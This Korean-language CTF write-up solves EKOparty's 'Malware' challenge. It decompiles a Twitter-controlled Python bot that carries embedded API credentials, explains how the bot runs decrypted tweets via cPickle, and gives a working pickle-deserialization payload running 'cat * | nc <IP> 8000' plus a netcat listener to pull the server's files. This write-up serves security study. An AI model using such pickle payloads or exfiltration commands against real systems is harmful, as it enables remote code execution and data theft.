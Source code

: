 ============================================================================================================
[EKOparty] Malware
============================================================================================================

Flow Chart
================================================================================================================

.. graphviz::

    digraph foo {
        a -> b;
        
        a [shape=box, label="uncompyle2"];
        b [shape=box, label="python decode"];
    }

|

디컴파일 (pyc -> py)
============================================================================================================

압축 파일을 다운 받은 뒤 풀어보니 pyc파일 형식입니다.

pyc를 `uncompyle2`_ 를 통해 디컴파일 해줍니다. 

.. _`uncompyle2`: https://github.com/wibiti/uncompyle2

디컴파일한 코드는 다음과 같습니다.

.. code-block:: python

    # Embedded file name: ekobot_final.py
    import os
    import sys
    import httplib2
    import cPickle
    from Crypto.PublicKey import RSA
    from base64 import b64decode
    from twython import Twython
    
    if 0:
        i11iIiiIii
        OO0o = 'ekoctf'
    
    if 0:
        Iii1I1 + OO0O0O % iiiii % ii1I - ooO0OO000o
    if len(sys.argv) != 2:
        os._exit(0)
        if 0:
            IiII1IiiIiI1/ iIiiiI1IiI1I1

    ##### 중략 #####

    IiIi[0:5] == 'eko11':
        cPickle.loads(IiIiIi[5:])
        os._exit(0)
        if 0:
            iii1II11ii.Oo.iIiiiI1IiI1I1.ii1I

        except Exception as OOooO:
            print str(OOooO)
            if 0:
                ii1II11I1ii1I+ ooO0OO000o % i11iIiiIii.o0oOoO00o - IiII1IiiIiI1

    oo(oo00)

|

리펙토링
============================================================================================================

디컴파일 코드 가독성을 높이기위해 변수명을 수정하고, 필요없는 코드(if 0:)들을 수정해줍니다.

.. code-block:: python

    import os
    import sys
    import httplib2
    import cPickle
    from Crypto.PublicKey import RSA
    from base64 import b64decode
    from twython import Twython

    if len(sys.argv) != 2:
        os._exit(0)

    input_file = sys.argv[1]

    def read_file1():
        input = 0
        if os.path.isfile(input_file):
            try:
                fileopen = open(input_file, 'r')
                input = int(fileopen.readline(), 10) 
            except:
                input = 0

        return input

    def main(twid):
        try:
            fileopen = open(input_file, 'w')
            fileopen.write(str(twid))
        except:
            print 'error'

    def response_data(url):
        httplist = httplib2.Http('')
        res_header, res_data = httplist.request(url, 'GET')
        if res_header.status == 200:
            try:
                if res_header['content-type'][0:10] == 'text/plain':
                    return res_data
                return 'Err'
            except:
                return 'Err'

        else:
            return url

    def dec(cipher_text):
        try:
            rsa_key = RSA.importKey(open('ekobot.pem').read())
            decode_data = b64decode(cipher_text)
            iiiI11 = rsa_key.decrypt(decode_data)
            return iiiI11
        except Exception as error_page:
            print str(error_page)
            return 'Err'

    twitter = Twython('ienmDwTNHZVR9si4SzeCg1glB', 'TTlOJrwq5o9obnRyQXRyaOkRoYUBTrCzN9j9IHX0Bc4dS2xBHN', oauth_version=2)
    twitter_token = twitter.obtain_access_token() 
    twitter = Twython('ienmDwTNHZVR9si4SzeCg1glB', access_token=twitter_token)

    input = read_file1()
    searching = twitter.search(q='#ekoctf', rpp='250', result_type='mixed', since_id=input) 


    for status1 in searching['statuses']:
        if status1['id'] > input:
            input = status1['id']

        n = 0
        try:
            for hashtag1 in status1['entities']['hashtags']:
                if hashtag1['text'] == 'ekoctf':
                    n = 1

            if n == 1:
                for url1 in status1['entities']['urls']:
                    if os.fork() == 0:
                        decrypt = dec(response_data(url1['url']))
                        if decrypt[0:5] == 'eko11':
                            cPickle.loads(decrypt[5:])
                        os._exit(0)

        except Exception as error_page:
            print str(error_page)

    main(input)
 
|


소스 분석
============================================================================================================

이제 코드를 확인해보면 Twython이라는 모듈을 먼저 쓰고 있는걸 볼 수 있습니다. Twitter의 공식 API의 기본 래퍼를 파이썬으로 제작한 것입니다. 
코드 진행 순서는 다음과 같습니다.

- Twitter에 ekoctf 태그로 url부분에 대한 검색을 통해 content-type이 text/plain일 경우, reponse data를 추출

- 추출한 response data를 rsa private key ekobot.pem을 통해 복호화 진행

- 복호화한 데이터 header 값에 'eko11'이 있을 경우, 그 뒤 복호화한 데이터를 cPickle.loads을 통해 명령 실행

twitter를 통해 원하는 명령을 실행할 수 있는 프로그램 형태입니다. 
우선 Public Key를 알아야 해당 문제를 해결할 수 있기 때문에 twitter에서 #ekoctf로 검색을 하니 다음 주소에 Public Key가 있는 걸 확인할 수 있습니다. (https://twitter.com/NullLifeTeam/status/657208358408204288))

.. code-block:: text

    -----BEGIN PUBLIC KEY-----
    MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAmWw84H8BSPG1Ispn1hBP
    WZ4ORxniLhOl76aOAsGsqdRZJyL+PFLWedGUx0ELwzf3vWQ2wMDwN37MZYWdS4z8
    WT6P4FRtK09UtDgqNUQdx49WBqDf2GmIT+uBwMQBUCe3x+RTVcwDzA1I0mPtJj3K
    6bGdmSSBZjgc6MA4rJil7xdSVP5Pedb8MZMKk/5tXmFl3gFjykkUfG+DbmsxulZ4
    8D+IoIU6bVWAkael+ftZtDWY43XkezD2swV01Eaw4J7MzBakPDA6KipxNhKQZ2xo
    eEsP2p8L67qF48eUbxI1ukcrqdy0c92rSihmChGBmHQ2AREshtTTLpM24/Nrirje
    /QIDAQAB
    -----END PUBLIC KEY-----

|

역수행
============================================================================================================

이제 Public Key를 이용해 사용하고자 하는 명령을 RSA로 암호화하여 , twitter에 raw data 형식으로 글을 올리면 됩니다.

본 문서에서는 cat *|nc local_ip 8000 라는 명령을 통해 해당 서버 디렉토리에 파일들을 볼 수 있도록 하겠습니다. 여기서 주의할 점은 파일 명령 앞부분에 "eko11"을 넣어주어야 정상적으로 서버에서 복호화 진행이 될 수 있습니다.

.. code-block:: python

    from Crypto.PublicKey import RSA
    from base64 import b64decode,b64encode
     
    key=RSA.importKey(open('pub.pem').read())
    exploit="eko11"+"cos\nsystem\n(S'cat * | nc 182.70.222.238 8000'\ntR.'\ntR."
    txt=key.encrypt(exploit,32)[0]
    final=b64encode(txt)
    print final
 
그리고 local에서는 while true; do nc -l -n -v -p 8000 ; done 이라는 명령을 입력하고 기다리면 해당 서버 디렉토리 파일 내용을 확인할 수 있습니다.

